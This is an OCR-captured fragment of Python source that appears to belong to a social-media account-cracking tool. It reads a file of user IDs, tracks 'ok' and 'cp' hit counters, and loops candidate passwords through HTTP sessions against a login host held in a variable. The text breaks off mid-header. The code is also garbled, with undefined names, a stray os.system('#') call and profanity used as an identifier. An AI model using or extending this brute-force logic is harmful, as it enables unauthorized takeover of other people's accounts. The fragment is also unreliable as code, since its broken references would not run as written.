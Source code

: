 			elif key in ["0", "00" , "6"]:

				time.sleep(0.5)

				exit("\n [✓] Thank You\n")

class __xxx__:

    def __init__(self):

        self.id = []

    def imtiaz(self,ak):

        if 1 in fuck:

            os.system('#')

        

      

        

        self.cnt = input(' [*] Put File Name : ')

        self.id = open(self.cnt).read().splitlines()

        os.system('clear')

        print(logo)

        print("")

        ___worldwide___ = ('y')

        if ___worldwide___ in ('yes','Yes','Y', 'y'):

            self.__pler__()

        else:

            print(' [!] Choose Correct One');

            self.sarfrazx(id)

    def __metode__(self, user, __chi__, cebok):

        global ok,cp,loop

        sys.stdout.write(f"\r \x1b[1;33m[TANJID]\x1b[1;33m {loop}|{len(self.id)} \x1b[1;32m[ok][{len(ok)}] ")

        sys.stdout.flush()

        try:

            for pw in __chi__:

                pw = pw.lower()

                session=requests.Session()

                header = {

                    "Host":cebok,
